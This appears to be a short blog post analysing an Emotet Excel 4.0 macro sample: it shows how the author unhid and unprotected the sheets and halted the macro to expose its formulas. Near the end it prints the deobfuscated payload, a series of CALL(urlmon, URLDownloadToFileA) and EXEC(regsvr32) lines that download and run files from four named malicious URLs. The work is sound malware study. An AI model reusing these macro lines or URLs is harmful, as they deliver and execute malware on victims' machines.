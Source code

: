 ```yaml
---
layout: post
title: EMOTET XLS MACRO
---
```


##Sample: SHA256 2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea##
##Sample Link: https://bazaar.abuse.ch/download/2b9e253192c68bc69638043a5901d7753a9985a431738f0b22c7efea3e24bdea/ ##

After looking at John Hammonds video(https://www.youtube.com/watch?v=m6LXnM9mjrU) I decided to take a quick look and try to reconstruct the macro.

First thing I followed the same steps as the video to unhide the sheets and unprotect them. 
We need to unprotect them so that we can change the font color and modify the cells

I followed this article to brute force the password:
https://www.excelsupersite.com/how-to-unprotect-an-excel-spreadsheet-if-you-have-lost-your-password/

The general idea is to run a script on the sheet to unprotect them so that we can modify and change color of hidden text.

![image](https://user-images.githubusercontent.com/107503502/200201163-f428460f-c093-4249-b509-92511b596380.png)

The sheet is now unprotected.
I repeated this for all the sheets.

So we now have 6 sheets with some strings that are not obfuscated and actually start to make out what is goind to happen

![image](https://user-images.githubusercontent.com/107503502/200201177-95cbb78a-12c9-48a1-99e5-4a6db6a8010a.png)

Next step is to identify the entry point. Sheet 6 was unprotected so I'll start from there and check the Auto_Open macro.


![image](https://user-images.githubusercontent.com/107503502/200201206-7a2ce8b6-667c-4d67-860e-89b12bbbcfaf.png)

As you can see from the screenshot, the macro starts from the blank cell in G ( which by the way was hidden at the start, the column was shortened, so at a first glance there was a missing column)
The macro will go top-down jumping all the whitespace.

The first macro we get as seen above is:

=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!F26&Sheet3!R13&Sheet5!E9&Sheet3!M26,G16)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!E9&Sheet1!F24&Sheet1!L31,G18)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!G28&Sheet3!R13&Sheet5!G15&Sheet3!M26,G20)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!G15&Sheet1!F24&Sheet1!L31,G22)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!I27&Sheet3!R13&Sheet5!J3&Sheet3!M26,G24)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!J3&Sheet1!F24&Sheet1!L31,G26)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!J29&Sheet3!R13&Sheet5!L12&Sheet3!M26,G28)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!P21&Sheet3!L8&Sheet5!L12&Sheet1!F24&Sheet1!L31,G30)=FORMULA(Sheet1!L24&Sheet1!G44&Sheet1!H46&Sheet1!J44,G36)

The macro contains =FORMULA() this will retrieve a given formula present in the cells and save it in the cell that is the last argument.

For example the first row will retrieve data from the Sheet1  from L24 L26 L27 L28 L28  Sheet2 F6 N19 F10 R3 SHEET5 Q12 SHEET2 F26 SHEET3 R13 SHEET5 E9 SHEET3 M26  and save it all in G16. We can see that clicking on the cell excel highlights the destination cells.
![image](https://user-images.githubusercontent.com/107503502/200201235-18eb49b0-81d5-4cf7-8c81-ba299686cf9f.png)


So, I inserted =HALT() function in the row below, so that the magic goes on and we see all the functions and calls that will be called.

![image](https://user-images.githubusercontent.com/107503502/200201254-d8a2abe3-493c-4fa7-a750-9ae91e5c666a.png)

=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://audioselec.com/about/dDw5ggtyMojggTqhc/","..\oxnv1.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv1.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://geringer-muehle.de/wp-admin/G/","..\oxnv2.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv2.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://intolove.co.uk/wp-admin/FbGhiWtrEzrQ/","..\oxnv3.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv3.ooccxx")
=CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"http://isc.net.ua/themes/3rU/","..\oxnv4.ooccxx",0,0)
=EXEC("C:\Windows\System32\regsvr32.exe ..\oxnv4.ooccxx")
=RETURN()

And thats it. this is how i gathered easily the exact commands that will be launched using excel macros.
Nothing was obfuscated so, I guess nothing to interesting happens. But I just had fun doing it and learning a bit about macros in excel.




